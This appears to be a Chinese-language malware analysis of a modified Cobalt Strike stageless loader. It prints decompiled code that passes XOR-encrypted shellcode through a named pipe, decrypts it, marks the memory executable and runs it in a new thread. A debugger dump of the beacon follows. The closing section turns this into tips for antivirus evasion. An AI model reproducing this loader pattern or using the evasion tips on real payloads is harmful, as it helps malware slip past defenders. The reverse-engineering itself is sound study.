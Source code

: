 #### stageless

快速翻找函数表后定位到主函数sub_403040如下

```
void __noreturn sub_403040()
{
  sub_401950();
  sub_4017F8(0i64);
  while ( 1 )
    Sleep(0x2710u);
}
```

进入到sub_4017F8函数中

```
__int64 sub_4017F8()
{
  DWORD dwCreationFlags; // [rsp+20h] [rbp-48h]
  int lpThreadId; // [rsp+28h] [rbp-40h]
  int v3; // [rsp+30h] [rbp-38h]
  int v4; // [rsp+38h] [rbp-30h]
  int v5; // [rsp+40h] [rbp-28h]
  int v6; // [rsp+48h] [rbp-20h]
  int v7; // [rsp+50h] [rbp-18h]
  DWORD v8; // [rsp+58h] [rbp-10h]

  v7 = 92;
  v6 = 101;
  v5 = 112;
  v4 = 105;
  v3 = 112;
  lpThreadId = 92;
  dwCreationFlags = 46;
  v8 = GetTickCount() % 0x26AA;
  sprintf(Buffer, "%c%c%c%c%c%c%c%c%cMSSE-%d-server", 92i64, 92i64, dwCreationFlags, lpThreadId, v3, v4, v5, v6, v7, v8);
  CreateThread(0i64, 0i64, sub_4016E6, 0i64, 0, 0i64);
  return sub_4017A6(0i64);
}
```

创建了一个sub_4016E6函数的线程实例，进入sub_4016E6

```
__int64 __fastcall sub_4016E6(LPVOID lpThreadParameter)
{
  sub_401630(&dword_404020[5], dword_404020[1]);
  return 0i64;
}
```

进入到sub_401630

```
int __fastcall sub_401630(char *lpBuffer, signed int nNumberOfBytesToWrite)
{
  char *NamedPipeA; // r12
  int result; // eax
  DWORD NumberOfBytesWritten; // [rsp+4Ch] [rbp-2Ch] BYREF

  NumberOfBytesWritten = 0;
  NamedPipeA = (char *)CreateNamedPipeA(Buffer, 2u, 0, 1u, 0, 0, 0, 0i64);
  result = (_DWORD)NamedPipeA - 1;
  if ( (unsigned __int64)(NamedPipeA - 1) <= 0xFFFFFFFFFFFFFFFDui64 )
  {
    result = ConnectNamedPipe(NamedPipeA, 0i64);
    if ( result )
    {
      while ( nNumberOfBytesToWrite > 0
           && WriteFile(NamedPipeA, lpBuffer, nNumberOfBytesToWrite, &NumberOfBytesWritten, 0i64) )
      {
        lpBuffer += NumberOfBytesWritten;
        nNumberOfBytesToWrite -= NumberOfBytesWritten;
      }
      return CloseHandle(NamedPipeA);
    }
  }
  return result;
}
```

将加密后的shellcode通过创建的管道读入到Buffer处

##### 核心功能

定位到sub_4017A6函数

```
__int64 sub_4017A6()
{
  void *v0; // r12

  v0 = malloc((int)dword_404020[1]);
  do
    Sleep(0x400u);
  while ( !(unsigned int)sub_401704(v0, dword_404020[1]) );
  sub_401595(v0, dword_404020[1], &dword_404020[2]);
  return 0i64;
}
```

`v0 = malloc((int)dword_404020[1])`类似于为shellcode动态分配一块内存空间

然后暂停0xx400ms（1s），调用sub_401704函数，v0即shellcode的地址，dword_404020[1]即shellcode的长度

```
__int64 __fastcall sub_401704(char *shellcode_addr, signed int shellcode_length)
{
  HANDLE FileA; // r12
  __int64 result; // rax
  DWORD NumberOfBytesRead; // [rsp+4Ch] [rbp-2Ch] BYREF

  NumberOfBytesRead = 0;
  FileA = CreateFileA(Buffer, 0x80000000, 3u, 0i64, 3u, 0x80u, 0i64);
  result = 0i64;
  if ( FileA != (HANDLE)-1i64 )
  {
    while ( shellcode_length > 0 && ReadFile(FileA, shellcode_addr, shellcode_length, &NumberOfBytesRead, 0i64) )
    {
      shellcode_addr += NumberOfBytesRead;
      shellcode_length -= NumberOfBytesRead;
    }
    CloseHandle(FileA);
    return 1i64;
  }
  return result;
}
```

通过while循环将Buffer处的加密的shellcode写入到shellcode_addr中，即v0中

最后调用sub_401595函数，`sub_401595((__int64)v0, dword_404020[1], (__int64)&dword_404020[2]);`

v0为加密的shellcode的地址，`dword_404020[1]`为shellcode长度，则是密钥

```
HANDLE __fastcall sub_401595(__int64 a1, int a2, __int64 a3)
{
  SIZE_T v3; // r12
  _BYTE *v6; // rbx
  __int64 i; // rax
  LPVOID v8; // rcx
  int flOldProtect[11]; // [rsp+3Ch] [rbp-2Ch] BYREF

  v3 = a2;
  v6 = VirtualAlloc(0i64, a2, 0x3000u, 4u);
  for ( i = 0i64; (int)v3 > (int)i; ++i )
    v6[i] = *(_BYTE *)(a1 + i) ^ *(_BYTE *)(a3 + (i & 3));
  sub_401563(v6);
  VirtualProtect(v8, v3, 0x20u, (PDWORD)flOldProtect);
  return CreateThread(0i64, 0i64, StartAddress, v6, 0, 0i64);
}
```

`VirtualAlloc(0i64, a2, 0x3000u, 4u)`：在合适的位置分配一块a2大小的内存块，拥有内存可读写权限

通过密钥对shellcode解密

```
for ( i = 0i64; (int)v3 > (int)i; ++i )
    v6[i] = *(_BYTE *)(a1 + i) ^ *(_BYTE *)(a3 + (i & 3));
```

`VirtualProtect(v8, v3, 0x20u, (PDWORD)flOldProtect)`：`VirtualProtect` 是 Windows API 函数，用于更改内存区域的保护属性，此代码功能为，将v6处的shellcode长度的内存空间改写为可读可执行，注：这里虽然是v8但是看了ida的汇编代码，发现反编译的时候出错了，实际上是v6

`CreateThread(0i64, 0i64, StartAddress, v6, 0, 0i64)`,创建线程实例执行v6处已解密的shellcode


之前没有启动cs服务端时，v6处的shellcode就为空，当我启动cs的服务端时，v6处填充了正常的shellcode，也正常上线了（内存中的一部分shellcode来自x64dbg）

```
0000000000A90000 | 4D:5A                    | pop r10                                 |
0000000000A90002 | 41:52                    | push r10                                |
0000000000A90004 | 55                       | push rbp                                |
0000000000A90005 | 48:89E5                  | mov rbp,rsp                             |
0000000000A90008 | 48:81EC 20000000         | sub rsp,20                              |
0000000000A9000F | 48:8D1D EAFFFFFF         | lea rbx,qword ptr ds:[A90000]           | rbx:"MZARUH夊H侅 ", 0000000000A90000:"MZARUH夊H侅 "
0000000000A90016 | 48:89DF                  | mov rdi,rbx                             | rbx:"MZARUH夊H侅 "
0000000000A90019 | 48:81C3 3C6E0100         | add rbx,16E3C                           | rbx:"MZARUH夊H侅 "
0000000000A90020 | FFD3                     | call rbx                                |
0000000000A90022 | 41:B8 F0B5A256           | mov r8d,56A2B5F0                        |
0000000000A90028 | 68 04000000              | push 4                                  |
0000000000A9002D | 5A                       | pop rdx                                 |
0000000000A9002E | 48:89F9                  | mov rcx,rdi                             | rcx:NtProtectVirtualMemory+14
0000000000A90031 | FFD0                     | call rax                                |
0000000000A90033 | 0000                     | add byte ptr ds:[rax],al                |
0000000000A90035 | 0000                     | add byte ptr ds:[rax],al                |
0000000000A90037 | 0000                     | add byte ptr ds:[rax],al                |
0000000000A90039 | 0000                     | add byte ptr ds:[rax],al                |
0000000000A9003B | 0008                     | add byte ptr ds:[rax],cl                |
0000000000A9003D | 0100                     | add dword ptr ds:[rax],eax              |
0000000000A9003F | 000E                     | add byte ptr ds:[rsi],cl                | rsi:L"t-ms-win-gdi-edgegdi-l1-1-0"
0000000000A90041 | 1F                       | ???                                     |
0000000000A90042 | BA 0E00B409              | mov edx,9B4000E                         |
0000000000A90047 | CD 21                    | int 21                                  |
0000000000A90049 | B8 014CCD21              | mov eax,21CD4C01                        |
0000000000A9004E | 54                       | push rsp                                |
0000000000A9004F | 68 69732070              | push 70207369                           |
0000000000A90054 | 72 6F                    | jb A900C5                               |
0000000000A90056 | 67:72 61                 | jb A900BA                               |
0000000000A90059 | 6D                       | insd                                    |
0000000000A9005A | 2063 61                  | and byte ptr ds:[rbx+61],ah             | rbx+61:" be run in DOS mode.\r\r\n$"
0000000000A9005D | 6E                       | outsb                                   |
0000000000A9005E | 6E                       | outsb                                   |
0000000000A9005F | 6F                       | outsd                                   |
```

##### 启发

我们做免杀的时候，可以学习这个魔改版cs的免杀

1. 将初始的payload编码，运行时解密，这样绕过了静态查杀
2. 将实际要执行的代码先设为可写可读，等到运行时再设置为可读可执行
